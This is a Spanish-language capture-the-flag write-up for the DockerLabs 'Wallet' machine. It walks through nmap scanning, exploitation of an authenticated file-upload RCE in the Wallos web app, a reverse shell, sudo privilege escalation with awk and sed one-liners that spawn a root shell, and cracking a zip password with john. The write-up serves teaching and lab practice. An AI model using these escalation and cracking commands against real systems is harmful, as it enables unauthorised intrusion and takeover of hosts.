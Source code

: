```yaml
---
layout: post
title: DockerLabs Wallet Writeup
date: 2024-09-10
categories: ["Writeup", "Linux", "DockerLabs"]
---
```


![Image 1](https://dockerlabs.es/images/logos/wallet.jpeg)

# Enumeración

Iniciamos el proceso de enumeración ejecutando el siguiente comando con `nmap`:

```python
❯ nmap -p- --open --min-rate 5000 -n -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:50 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds

```

Como vemos solo esta el puerto 80 abierto. Vamos a lanzar el siguiente scaneo de `nmap` sobre el puerto 80, esta vez con scripts básicos de `enumeración de servicios` y `versiones`:

```python
❯ nmap -sCV -p80 -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:54 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Wallet

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds

```

Echándole un ojo a la web no vemos nada interesante, pero mirando el código fuente vemos que hace referencia a un `subdominio`:

![Image 2](/screenshots/wallet/html_domain.png)

Lo añadimos a nuestro archivo `/etc/hosts` así como el dominio `wallet.dl`

Entrando al subdminio `panel.wallet.dl` vemos que nos carga un formulario para registrarnos, nos registramos y accedemos a una aplicación web llamada `wallos`. Wallos es una aplicación web open source destinada a gestionar tus finanzas de una manera más fácil y efectiva. En la sección `About and Credits` podemos ver la versión utilizada:

![Image 3](/screenshots/wallet/wallos.png)

# Intrusión

Si buscamos por vulnerabilidades de wallos, nos encontramos con un `Authenticated RCE` en versiones anteriores a la 1.11.2 ([Link al PoC](https://www.exploit-db.com/exploits/51924))

A la hora de crear una nueva suscripción, el usuario puedes subir una imagen/logo, pero el código no está sanitizado correctamente y un usuario mal intencionado puede fácilmente bypassear la comprobación y subir una "imagen" con código php.

![Image 4](/screenshots/wallet/burpsuite.png)

Nuestra shell se guarda en `images/uploads/logos/`, nos dirigimos allí y nos enviamos una reverse shell a nuestra máquina

![Image 5](/screenshots/wallet/webshell.png)

![Image 6](/screenshots/wallet/netcat.png)

# Escalada

Primero vamos a cambiarnos a una shell completamente interactiva de la siguiente manera:

```bash
script /dev/null -c bash
ctrl + z 
stty raw -echo;fg 
reset xterm
export TERM=xterm 
export SHELL=/bin/bash
stty rows 41 columns 184
```

Mirando el archivo `/etc/passwd` vemos que hay 2 usuarios, `Pylon` y `Mario`

![Image 7](/screenshots/wallet/users.png)

Con `sudo -l` vemos que podemos ejecutar el comando `awk` como pylon sin proporcionar contraseña 

![Image 8](/screenshots/wallet/sudo.png) 

```bash 
sudo -u pylon /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

Una vez estamos como Pylon, vemos que hay un comprimido `.zip`, al descomprimirlo nos pide una contraseña 

![Image 9](/screenshots/wallet/zip.png) 

Para extraer el hash y romperlo voy a usar `zip2john`, pero antes tengo que pasarme el archivo a mi máquina. La máquina víctima no tiene python, asi que usare `php` para exponer el archivo y descargarlo a mi máquina. 

```php
// Máquina víctima 
php -S 0.0.0.0:81
```

```php
// Mi máquina
wget http://172.17.0.2:81/secretitotraviesito.zip
```
Para extraer el hash y romperlo con john ejecuté los siguientes comandos:

```bash 
❯ zip2john secretitotraviesito.zip > hash
```

```python
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate1       (secretitotraviesito.zip/notitachingona.txt)     
1g 0:00:00:00 DONE (2024-09-10 20:27) 50.00g/s 819200p/s 819200c/s 819200C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Descomprimimos el zip y el contenido es la contraseña para el usuario `pinguino`

![Image 10](/screenshots/wallet/pinguino.png)

El usuario `pinguino` puede ejcutar como cualquier usuario el comando sed sin proporcionar contraseña 

![Image 11](/screenshots/wallet/sudo_root.png)

```python 
sudo /usr/bin/sed -n '1e exec /bin/bash 1>&0' /etc/hosts
```

![Image 12](/screenshots/wallet/rooted.png)

